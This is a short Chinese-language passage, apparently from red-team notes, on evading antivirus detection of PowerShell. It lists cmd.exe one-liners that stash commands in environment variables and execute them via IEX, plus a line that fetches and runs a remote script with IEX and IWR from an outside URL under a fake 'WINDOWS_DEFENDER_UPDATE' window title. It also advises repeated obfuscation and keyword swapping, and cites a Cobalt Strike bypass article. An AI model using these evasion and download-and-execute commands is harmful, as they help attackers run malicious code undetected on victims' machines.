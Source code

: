 利用环境变量：

```text
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&&powershell IEX $env:cmd"
```

```text
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&&cmd /c echo %cmd%|powershell -
```

```text
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&&powershell IEX ([Environment]::GetEnvironmentVariable('cmd', 'Process'))
```

```text
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&&powershell IEX ((Get-ChildItem/ChildItem/GCI/DIR/LS env:cmd).Value)
```

从其他进程获取参数：

```text
cmd /c "title WINDOWS_DEFENDER_UPDATE&&echo IEX (IWR https://7ell.me/power)&& FOR /L %i IN (1,1,1000) DO echo"
```

免杀要不断尝试，活学活用，一次混淆不行多混淆几次，加上替换关键字等。

参考链接：

> [https://y4er.com/post/cobalt-strike-powershell-bypass/](https://y4er.com/post/cobalt-strike-powershell-bypass/)
>
> [https://www.cnblogs.com/linuxsec/articles/7384582.html](https://www.cnblogs.com/linuxsec/articles/7384582.html)

